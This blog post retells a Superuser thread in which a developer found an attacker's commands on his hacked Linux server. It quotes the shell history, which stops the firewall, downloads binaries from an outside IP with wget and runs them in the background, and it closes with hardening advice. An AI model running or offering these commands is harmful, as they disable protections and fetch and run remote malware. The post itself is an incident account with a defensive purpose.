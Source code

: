 ```yaml
---
layout: post
title:  "Live Hacking attempt thread in StackOverflow"
summary: "Tường thuật trực tiếp diễn biến các thông tin và thao tác mà hacker dùng trên chính 1 server bị hacked."
tags: Tech Security
---
```

> * Thread "Did I just get hacked?": [https://superuser.com/questions/1034137/did-i-just-get-hacked](https://superuser.com/questions/1034137/did-i-just-get-hacked) 
> * Texts from TheNextWeb: http://thenextweb.com/dd/2016/02/10/developer-watches-as-hackers-break-into-a-server/

Usually network infrastructure teams try to piece together how they were hacked, but one developer over on Superuser found themselves the audience to exactly how a major hack on their infrastructure unfolded.

User Vaid asked on Superuser if their server was compromised after walking away for an hour break and coming back to hundreds of commands written in the terminal window — it turns out that the server was indeed hacked:
```
  355  service iptables stop
  356  cd /tmp
  357  wget http://222.186.30.209:65534/yjz1
  358  chmod 0755 /tmp/yjz1
  359  nohup /tmp/yjz1 > /dev/null 2>&1 &
  360  chmod 777 yjz1
  361  ./yjz1
  362  chmod 0755 /tmp/yjz1
  363  nohup /tmp/yjz1 > /dev/null 2>&1 &
  364  chmod 0777 yjz1
  365  chmod u+x yjz1
  366  ./yjz1 &
  367  chmod u+x yjz1
  368  ./yjz1 &
  369  wget http://222.186.30.209:65534/yjz
  370  chmod 0755 /tmp/yjz
  371  nohup /tmp/yjz > /dev/null 2>&1 &
```
There were hundreds of these types of commands in the terminal, which may look like gibberish if you’re not familiar with Linux. In brief, the attackers broke into the server, stopped the firewall and proceeded to download and execute malicious code repeatedly.

If there’s two big takeaways from the post, it’s these:

1. Use private key authentication on your Linux servers to avoid brute-force attacks
2. Once a server like this is compromised, it needs to be destroyed

The post is a fascinating and somewhat rare look at how an attack on an innocent Web server can unfold when it’s not secured properly — you can see how the attacker broke in, tinkered with the system and tried to deploy multiple pieces of malware.

Remember, when you put your server online for the world to see it can and will be attacked, so it’s important to secure your internet-facing machines properly.
